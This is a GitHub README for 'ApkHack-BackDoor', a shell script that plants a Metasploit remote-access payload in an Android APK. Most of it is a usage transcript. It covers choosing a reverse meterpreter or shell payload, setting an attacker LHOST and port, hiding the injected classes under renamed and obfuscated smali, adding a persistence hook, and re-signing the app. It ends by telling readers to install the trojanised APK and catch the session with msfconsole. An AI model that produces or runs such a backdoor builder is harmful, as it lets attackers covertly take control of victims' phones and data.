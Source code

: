 # ApkHack-BackDoor
ApkHack-BackDoor is a shell script that simplifies the process of adding a backdoor to any Android APK file. Users of this shell script should have working knowledge of any Linux distribution, Bash, Metasploit, Apktool, the Android SDK, smali, etc. This shell script is provided as-is without warranty of any kind and is intended for only educational purposes.

![apphack1](https://github.com/BitWalls-ops/ApkHack-BackDoor/blob/main/1.png)
![apphack1](https://github.com/BitWalls-ops/ApkHack-BackDoor/blob/main/2.png)

Usage:

```
root@parrot:~/Code/script/ApkHack-BackDoor/ApkHack-BackDoor# ./ApkHack-BackDoor.sh DarkHub.apk 
	    _    ____  _  __  _   _    _    ____ _  __
	   / \  |  _ \| |/ / | | | |  / \  / ___| |/ /
	  / _ \ | |_) | ' /  | |_| | / _ \| |   | ' / 
	 / ___ \|  __/| . \  |  _  |/ ___ \ |___| . \ 
	/_/   \_\_|   |_|\_\ |_| |_/_/   \_\____|_|\_\
								BitWalls-ops DarkHub
       

[*] Running ApkHack-BackDoor.sh v2.0.4a on Tue May 9 17:13:37 EDT 2023
[+] Android payload options:
1) meterpreter/reverse_http   4) shell/reverse_http
2) meterpreter/reverse_https  5) shell/reverse_https
3) meterpreter/reverse_tcp    6) shell/reverse_tcp
[?] Please select an Android payload option: 2
[?] Please enter an LHOST value: 107.4.9.31
[?] Please enter an LPORT value: 8080
[+] Android manifest permission options:
1) Keep original
2) Merge with payload and shuffle
[?] Please select an Android manifest permission option: 2
[+] Handle the payload via resource script: msfconsole -r backdoor-apk.rc
[*] Decompiling original APK file...done.
[*] Locating smali file to hook in original project...done.
[+] Package where RAT smali files will be injected: com/baidu/browser/inter
[+] Smali file to hook RAT payload: com/dark/hub/inter/BdApplication.smali
[*] Generating RAT APK file...done.
[*] Decompiling RAT APK file...done.
[*] Merging permissions of original and payload projects...done.
[*] Injecting helpful Java classes in RAT APK file...done.
[*] Creating new directory in original package for RAT smali files...done.
[+] Inject package path: com/baidu/browser/inter/pjese
[+] Generated new smali class name for MainBroadcastReceiver.smali: Iivym
[+] Generated new smali class name for MainService.smali: Aupyx
[+] Generated new smali class name for Payload.smali: Nwiuc
[+] Generated new smali class name for StringObfuscator.smali: Abnrw
[+] Generated new smali method name for StringObfuscator.obfuscate method: icobf
[+] Generated new smali method name for StringObfuscator.unobfuscate method: wbcik
[*] Copying RAT smali files to new directories in original project...done.
[*] Fixing RAT smali files...done.
[*] Obfuscating const-string values in RAT smali files...done.
[*] Adding hook in original smali file...done.
[*] Adding persistence hook in original project...done.
[*] Recompiling original project with backdoor...done.
[*] Generating RSA key for signing...done.
[*] Signing recompiled APK...done.
[*] Verifying signed artifacts...done.
[*] Aligning recompiled APK...done.
root@parrot:~/Code/script/ApkHack-BackDoor/ApkHack-BackDoor#
```

The recompiled APK will be found in the 'original/dist' directory. Install the APK on a compatible Android device, run it, and handle the meterpreter connection via the generated resource script: msfconsole -r backdoor-apk.rc
